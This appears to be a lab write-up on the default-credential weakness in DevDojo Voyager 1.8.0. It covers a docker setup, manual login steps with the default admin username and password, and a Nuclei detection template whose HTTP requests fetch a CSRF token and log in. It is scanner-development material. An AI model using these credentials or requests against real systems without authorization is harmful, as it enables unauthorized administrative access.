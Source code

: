 # DevDojo Voyager Default Login

## Description:
DevDojo Voyager contains default credentials when run with dummy data. An attacker can obtain access to user accounts and access sensitive information, modify data, and/or execute unauthorized operations.

## Reference:
- https://voyager-docs.devdojo.com/getting-started/installation

## Vulnerable Setup

- Execute the following commands to start a Laravel Voyager 1.8.0 server:

```
docker compose up -d
```

- After the server is started, browse to http://your-ip:8000 to see the Laravel Voyager admin panel. This server requires authentication.

## Default Login   

Username: admin@admin.com

Password: password

# Exploitation Steps

- Navigate to your URL http://your-ip:8000/admin

- Enter the Default Credentials (admin@admin.com/password) as shown below.

![image](https://github.com/user-attachments/assets/7935b0f8-1966-44c9-9d35-21a8aac72e41)

- You will be Successfully Logged in with Admin Privilege.

# Steps to Write Nuclei Template

**Variables Section**

```yaml
variables:
  username: "admin@admin.com"
  password: "password"
```

- Defines the login credentials (username and password) as variables, which can be reused in requests.

**First Request: Retrieve CSRF Token**

```yaml
  - raw:
      - |
        GET /admin/login HTTP/1.1
        Host: {{Hostname}}

    extractors:
      - type: regex
        part: body
        internal: true
        name: csrf
        group: 1
        regex:
          - 'name="_token" value="([a-zA-Z0-9]+)"'
```

- Sends a GET request to /admin/login to retrieve the login page.
- Extracts the CSRF token (_token) from the response body using a regular expression.
- Stores the extracted value in an internal variable named csrf for later use.

**Second Request: Perform Login**

```yaml
  - raw:
      - |
        POST /admin/login HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        _token={{csrf}}&email={{username}}&password={{password}}&

    matchers:
      - type: dsl
        dsl:
          - "contains(body,'/admin</title>')"
          - "status_code == 302"
        condition: and
        internal: true
```

- Sends a POST request to `/admin/login` with:
  - Extracted `_token`
  - Username and password from the variables

- The matchers validate a successful login by checking:
  - The response body contains `</admin</title>` (indicating admin page access).
  - The response has a `302` status code, indicating a successful login and redirection.

## Nuclei Template URL : [devdojo-voyager-default-login](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/default-logins/devdojo/devdojo-voyager-default-login.yaml)

## Nuclei Command :

```bash
nuclei -t devdojo-voyager-default-login.yaml -u http://172.30.0.2:8000 -vv
```

